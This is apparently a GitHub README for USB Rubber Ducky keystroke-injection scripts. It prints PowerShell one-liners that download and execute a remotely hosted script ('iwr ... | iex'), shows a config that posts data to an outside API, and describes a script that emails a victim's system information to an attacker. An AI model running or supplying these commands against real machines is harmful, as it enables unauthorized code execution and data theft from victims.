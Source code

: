 <br>
<br>
<h1 align="center" style="border: none !important; padding-bottom: 1em !important;">🦆<br><br>Ducky Scripts</h1>  

<p align="center">
A few scripts for the USB rubber ducky from HAK5. The scripts are written in ducky script.
</p>

```
                                  _      _      _      USB       _      _      _
                               __(.)< __(.)> __(.)=   Rubber   >(.)__ <(.)__ =(.)__
                               \___)  \___)  \___)    Ducky!    (___/  (___/  (___/ 

```

## ExeWebScript
> **Note!** Your CMD commands file must be publicly hosted on the web and is by definition not secure.  

This Rubber Ducky Script executes a custom powershell script that is hosted online. Host the `powershellScript.txt` or a custom script online and change the locatin in `ExeWebScript.duck` to that hosted script. 

### Ducky script
It uses IEX to execute plain text from wget. Examples:
```powershell
# shortest
  iwr www.yourSite.com/powershellScript.txt|iex

# alternative
  iex (wget www.yourSite.com/powershellScript.txt)

```
### Powershell script
The powershellScript.txt is just as an example of what some 'harmless' things that you could do.  
It comes with a config for some options.
```powershell
#================================
#            CONFIG 
#================================     

    $MinimizeWindows = $True;
    $ShowPopUp = $False;

    $OpenWebPage = $True;
        $urlNAV = "www.yourWebsite.com/PageToDisplay";
        $OpenInFullScreen = $True;    
        
    $SendPostToAPI = $True;
        $urlAPI = "www.yourWebsite.com/PostAPI";
        
    $BlockMouse = $True;
        $BlockedTimeSeconds = 8;

    $SpeakText = $True;
        $TextToSpeak = "Hi. This is a Rubber Ducky";

#===============================
```

## SendSystemInfo
> **Note!** Your password and emailadress wil be typed in plain text on the victem's computer  

This script sends the system information from a victim's computer to a specified e-mail address.
